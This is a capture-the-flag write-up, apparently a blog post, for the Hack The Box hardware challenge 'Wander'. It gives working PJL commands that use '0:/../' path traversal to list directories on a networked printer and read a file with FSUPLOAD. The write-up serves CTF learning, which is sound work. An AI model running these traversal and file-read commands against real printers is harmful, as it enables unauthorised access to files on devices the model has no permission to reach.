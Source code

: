 ```yaml
---
layout: newpost
title: "Writeup: HTB Challenge Wander"
date: 2025-01-27
categories: [tech]
tags: [htb, ctf, hardware]
---
```


- Challenge: [Wander](https://app.hackthebox.com/challenges/Wander)
- Category: Hardware
- Solve date: 2025-01-27

---
### Description

> My uncle isn't allowing me to print documents. He's off to vacation and I need a PIN to unlock this printer. All I found is a web server where this printer is managed from. Can you help me with this situation ?

### Provided files

- n/a

---
# Web server recon

Visiting the provided URL, there is one input which mentions  "@JPL INFO ID". This make us realize that we are dealing with "Printer Job Language", and that we can probably just type any PJL command into the input.

---
# PJL

The [Printer Exploitation Toolkit](https://github.com/RUB-NDS/PRET/blob/master/pjl.py#L237) can help us find some relevant commands to use:
- `@PJL FSUPLOAD` : get file (I know, right..)
- `@PJL INFO` : display info
- `@PJL FSQUERY` : list files and directories

## Exploit

### Validate 

`@PJL INFO STATUS`: 
```html
@PJL INFO STATUS<br />CODE=10001<br />DISPLAY="Ready"<br />ONLINE=True
```

### List files

`@PJL FSDIRLIST NAME="0:/../" ENTRY=1 COUNT=65535`:
```sh
etc TYPE=DIR  
conf TYPE=DIR  
home TYPE=DIR  
rw TYPE=DIR  
tmp TYPE=DIR  
csr_misc TYPE=DIR  
printer TYPE=DIR
```

We'll use this pattern to find interesting files like `/home/default/readyjob`

Get file size with:
`@PJL FSDIRLIST NAME="0:/../home/default/readyjob" ENTRY=1 COUNT=65535`

### Print the file

`@PJL FSUPLOAD NAME = 0:/../home/default/readyjob" SIZE=457 OFFSET=0`

![flag](/assets/ctf_files/htb_wander/flag.png)

:checkered_flag:
